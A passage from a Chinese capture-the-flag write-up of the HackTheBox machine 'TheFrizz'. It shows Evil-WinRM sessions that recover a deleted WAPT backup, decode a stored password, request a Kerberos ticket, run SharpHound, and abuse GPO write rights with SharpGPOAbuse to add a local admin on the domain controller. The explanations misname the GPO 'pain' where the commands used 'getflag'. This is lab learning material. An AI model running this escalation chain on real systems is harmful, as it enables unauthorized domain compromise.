*Evil-WinRM* PS C:\Users\f.frizzle\Desktop> download 20250318013251_BloodHound.zip
                                        
Info: Downloading C:\Users\f.frizzle\Desktop\20250318013251_BloodHound.zip to 20250318013251_BloodHound.zip
                                        
Info: Download successful!
```

但是分析后没找到利用的方法，但是在回收站能找到有趣的东西…..(经提示)

```bash
*Evil-WinRM* PS C:\Users\f.frizzle\Documents> cd 'C:\$Recycle.Bin\S-1-5-21-2386970044-1145388522-2932701813-1103'

*Evil-WinRM* PS C:\$Recycle.Bin\S-1-5-21-2386970044-1145388522-2932701813-1103> dir

    Directory: C:\$Recycle.Bin\S-1-5-21-2386970044-1145388522-2932701813-1103

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        10/29/2024   7:31 AM            148 $IE2XMEG.7z
-a----        10/24/2024   9:16 PM       30416987 $RE2XMEG.7z
```

存在两个7z文件，转储出来

```bash
*Evil-WinRM* PS C:\$Recycle.Bin\S-1-5-21-2386970044-1145388522-2932701813-1103> cp '$IE2XMEG.7z' backup_1.7z
*Evil-WinRM* PS C:\$Recycle.Bin\S-1-5-21-2386970044-1145388522-2932701813-1103> cp '$RE2XMEG.7z' backup_2.7z
*Evil-WinRM* PS C:\$Recycle.Bin\S-1-5-21-2386970044-1145388522-2932701813-1103> cp 'backup_1.7z' C:\users\f.frizzle\Documents\
*Evil-WinRM* PS C:\$Recycle.Bin\S-1-5-21-2386970044-1145388522-2932701813-1103> cp 'backup_2.7z' C:\users\f.frizzle\Documents\
```

转储出来后，发现`backup_1.7z`无法解压

将`backup_1.7z` 后缀名改为`txt` 再查看

```bash
⚡ root@kali  ~/Desktop/test/TheFrizz  mv backup_1.7z backup_1.txt   
⚡ root@kali  ~/Desktop/test/TheFrizz  cat backup_1.txt      
[ 2*<C:\Users\f.frizzle\AppData\Local\Temp\wapt-backup-sunday.7z# 
```

`backup_2.7z`解压出是`wapt`的目录，查看其配置文件

```bash
⚡ root@kali  ~/Desktop/test/TheFrizz/wapt  cat conf/waptserver.ini
[options]
allow_unauthenticated_registration = True
wads_enable = True
login_on_wads = True
waptwua_enable = True
secret_key = ylPYfn9tTU9IDu9yssP2luKhjQijHKvtuxIzX9aWhPyYKtRO7tMSq5sEurdTwADJ
server_uuid = 646d0847-f8b8-41c3-95bc-51873ec9ae38
token_secret_key = 5jEKVoXmYLSpi5F7plGPB4zII5fpx0cYhGKX5QC0f7dkYpYmkeTXiFlhEJtZwuwD
wapt_password = IXN1QmNpZ0BNZWhUZWQhUgo=
clients_signing_key = C:\wapt\conf\ca-192.168.120.158.pem
clients_signing_certificate = C:\wapt\conf\ca-192.168.120.158.crt

[tftpserver]
root_dir = c:\wapt\waptserver\repository\wads\pxe
log_path = c:\wapt\log
```

对`wapt_password`进行解码，得到密码`!suBcig@MehTed!R`


经过测试，最后知道密码是`M.SchoolBus`用户的

```bash
ntpdate -s 10.129.224.51
getTGT.py frizz.htb/M.SchoolBus:'!suBcig@MehTed!R' -dc-ip frizzdc.frizz.htb
```


使用新的票据进行`evil`登录，成功登录

```bash
⚡ root@kali  ~/Desktop/test/TheFrizz  export KRB5CCNAME=M.SchoolBus.ccache
 ⚡ root@kali  ~/Desktop/test/TheFrizz  ntpdate -s 10.129.224.51            
sudo evil-winrm -i frizzdc.frizz.htb -r frizz.htb -k M.SchoolBus.ccache
                                                                       
Evil-WinRM shell v3.7          
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                      
                                                                       
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                        
                                                                                                                                                             
Warning: Useless cert/s provided, SSL is not enabled                   
                                                                       
Info: Establishing connection to remote endpoint                              
*Evil-WinRM* PS C:\Users\M.SchoolBus\Documents>     
```

## 提权

```bash
*Evil-WinRM* PS C:\Users\M.SchoolBus> ./SharpHound.exe -c all
2025-03-18T07:02:16.4901041-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2025-03-18T07:02:16.6463559-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2025-03-18T07:02:16.6776043-07:00|INFORMATION|Initializing SharpHound at 7:02 AM on 3/18/2025
2025-03-18T07:02:16.7869804-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for frizz.htb : frizzdc.frizz.htb
2025-03-18T07:02:17.0369968-07:00|INFORMATION|Loaded cache with stats: 70 ID to type mappings.
 70 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2025-03-18T07:02:17.0526049-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2025-03-18T07:02:17.2088556-07:00|INFORMATION|Beginning LDAP search for frizz.htb
2025-03-18T07:02:17.2557291-07:00|INFORMATION|Producer has finished, closing LDAP channel
2025-03-18T07:02:17.2557291-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2025-03-18T07:02:47.2244906-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 39 MB RAM
2025-03-18T07:03:04.5682491-07:00|INFORMATION|Consumers finished, closing output channel
Closing writers
2025-03-18T07:03:04.6151161-07:00|INFORMATION|Output channel closed, waiting for output task to complete
2025-03-18T07:03:04.7244793-07:00|INFORMATION|Status: 112 objects finished (+112 2.382979)/s -- Using 44 MB RAM
2025-03-18T07:03:04.7244793-07:00|INFORMATION|Enumeration finished in 00:00:47.5265832
2025-03-18T07:03:04.8182454-07:00|INFORMATION|Saving cache with stats: 70 ID to type mappings.
 70 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2025-03-18T07:03:04.8338673-07:00|INFORMATION|SharpHound Enumeration Completed at 7:03 AM on 3/18/2025! Happy Graphing!

*Evil-WinRM* PS C:\Users\M.SchoolBus> download 20250318070304_BloodHound.zip

                                        
Info: Downloading C:\Users\M.SchoolBus\20250318070304_BloodHound.zip to 20250318070304_BloodHound.zip
                                        
Info: Download successful!
```

导入BloodHound，这里我导入的数据会比他们少点，这里我贴他们的图


可以看到`M.SchoolBus`对`Class_Frizz@Frizz.htb`有write权限，并且对`Domain Controllers@Frizz.htb`有写权限，那么就存在GPO滥用

**WriteGPO Link（写入 GPO 组策略的权限）**，表明它能够修改组策略，可能导致域权限提升（Privilege Escalation）。

利用工具：https://github.com/FSecureLABS/SharpGPOAbuse | https://github.com/byronkg/SharpGPOAbuse

```bash
*Evil-WinRM* PS C:\Users\M.SchoolBus\Documents> upload SharpGPOAbuse.exe
Info: Uploading /root/Desktop/test/TheFrizz/SharpGPOAbuse.exe to C:\Users\M.SchoolBus\Documents\SharpGPOAbuse.exe
Data: 107860 bytes of 107860 bytes copied
Info: Upload successful!                                                                                                                                          
```

```bash
*Evil-WinRM* PS C:\Users\M.SchoolBus\Documents> New-GPO -Name getflag | New-GPLink -Target "OU=DOMAIN CONTROLLERS,DC=FRIZZ,DC=HTB" -LinkEnabled Yes         
GpoId       : 236e8f45-c46e-4962-9cec-9d69350ddb93                                                                                                           
DisplayName : getflag                                                                                                                                        
Enabled     : True                                                                                                                                           
Enforced    : False                                                                                                                                          
Target      : OU=Domain Controllers,DC=frizz,DC=htb                                                                                                          
Order       : 2    
```

- **`New-GPO -Name** getflag`：创建一个新的组策略对象（GPO），名称为 `getflag`。
- **`New-GPLink -Target "OU=DOMAIN CONTROLLERS,DC=FRIZZ,DC=HTB" -LinkEnabled Yes`**：
    - `New-GPLink` 用于将 GPO 链接到指定的 OU（组织单位）。
    - 这里的目标是 `OU=DOMAIN CONTROLLERS,DC=FRIZZ,DC=HTB`，即 **域控制器 (DC) 组织单位**，表示该 GPO 作用于整个 Active Directory 域控制器。
    - `LinkEnabled Yes` 表示启用这个 GPO。

```bash
*Evil-WinRM* PS C:\Users\M.SchoolBus\Documents> .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName getflag
[+] Domain = frizz.htb                                                                                                                                       
[+] Domain Controller = frizzdc.frizz.htb
[+] Distinguished Name = CN=Policies,CN=System,DC=frizz,DC=htb
[+] SID Value of M.SchoolBus = S-1-5-21-2386970044-1145388522-2932701813-1106
[+] GUID of "getflag" is: {236E8F45-C46E-4962-9CEC-9D69350DDB93}
[+] Creating file \\frizz.htb\SysVol\frizz.htb\Policies\{236E8F45-C46E-4962-9CEC-9D69350DDB93}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
[+] Done!
```

- **`SharpGPOAbuse.exe --AddLocalAdmin`**：
    - 该命令使用 **SharpGPOAbuse** 工具修改 `pain` 这个 GPO，使得 `M.SchoolBus` 这个用户被添加为本地管理员。
- **`-UserAccount M.SchoolBus`**：
    - 目标用户是 `M.SchoolBus`，意味着攻击者希望让该用户获得本地管理员权限。
- **`-GPOName pain`**：
    - 指定要修改的 GPO 名称是 `pain`（之前创建的 GPO）

```bash
*Evil-WinRM* PS C:\Users\M.SchoolBus\Documents> gpupdate /force                                                                                              
Updating policy...                                                                                                                                                                                                                                                                                                                                                                                                                           
Computer Policy update has completed successfully. 
```

- 这个命令 **强制更新** 组策略，使得 `pain` GPO 立即生效。
- 这样，`M.SchoolBus` 用户就会被成功添加到本地管理员组。

最后读取`Root.txt`

```bash
*Evil-WinRM* PS C:\Users\M.SchoolBus\Documents> type C:\Users\Administrator\Desktop\root.txt                                                                 
8f40592b0321c70f59d101a0d640a0c2 
```

再查看一下权限

```bash
*Evil-WinRM* PS C:\Users\M.SchoolBus\Documents> whoami /priv                                                                                11:05:33 [5/1663]
                                                                                                                                                             
PRIVILEGES INFORMATION                                                                                                                                       
----------------------                                                                                                                                       
                                                                              
Privilege Name                            Description                                                        State             
========================================= ================================================================== =======                                         
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled                           
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
```

## 总结

学习到`GPO` 滥用，BloodHound。并且还有回收站`C:\$Recycle.Bin` 可能会藏数据（雾），还有就是新加坡节点问题太多了